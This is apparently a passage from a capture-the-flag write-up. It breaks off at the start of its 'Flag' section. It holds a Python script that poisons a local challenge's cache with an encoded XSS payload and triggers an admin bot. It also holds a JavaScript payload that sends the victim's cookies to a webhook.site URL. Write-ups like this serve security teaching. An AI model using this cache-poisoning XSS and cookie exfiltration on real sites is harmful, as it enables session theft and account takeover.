 ```python
import requests
import base64
import urllib.parse

host = "http://localhost:1337"
webhook = "https://webhook.site/<your webhook>"

def encode(s: str):
    return urllib.parse.quote(s)


def poison_cache(s: str):
    response = requests.get(f"{host}/stats?{s}")
    return response.text

def trigger_bot_xss():
    requests.get(f"{host}/generate-report")


js = open("pwn.js", "r+").read().replace("WEBHOOK_URL", webhook)
js = base64.b64encode(js.encode()).decode().replace("\n", "")

inj = encode(f"<img src=x onerror=eval(atob(\"{js}\"))>")
s = f"period=1m&period={inj}"
poison_cache(s)
trigger_bot_xss()
```

In order to test whether it works, the `pwn.js` file looks as follows:

```javascript
const log = (lg) => {
	navigator.sendBeacon("WEBHOOK_URL", JSON.stringify(lg));
};
const main = async () => {
	log({
		cookie: document.cookie,
		i: "work properly",
	});
};

main();
```

After executing `python pwn.py` I can see in my [webhook.site](https://webhook.site) that the XSS is working properly:

![screenshot](https://i.imgur.com/frnGeQb.png)

## Flag

Now I modify the `pwn.js` file, in order to verify whether I can truly get the bot to visit any `url` I give it:
